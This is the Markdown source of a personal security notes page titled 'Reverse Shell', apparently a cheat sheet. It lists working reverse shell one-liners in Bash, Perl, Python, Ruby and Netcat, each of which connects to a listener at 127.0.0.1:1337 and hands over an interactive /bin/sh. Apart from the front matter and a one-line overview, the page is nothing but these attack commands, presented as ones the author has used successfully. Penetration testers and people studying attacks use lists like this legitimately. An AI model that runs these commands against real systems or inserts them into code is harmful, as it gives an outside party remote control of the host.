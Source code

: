 ```yaml
---
permalink: /offensive/rev_shell/
title: "Reverse Shell"
layout: single
excerpt: " "
author_profile: true
toc: true
toc_label: "Reverse Shell TOC"
toc_icon: "laptop"
---
```


## Overview
This section will be a list of commonly used reverse shells that I have had success using.

## Bash
```
bash -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

## Perl
```
perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat
```
nc -e /bin/sh 127.0.0.1 1337
```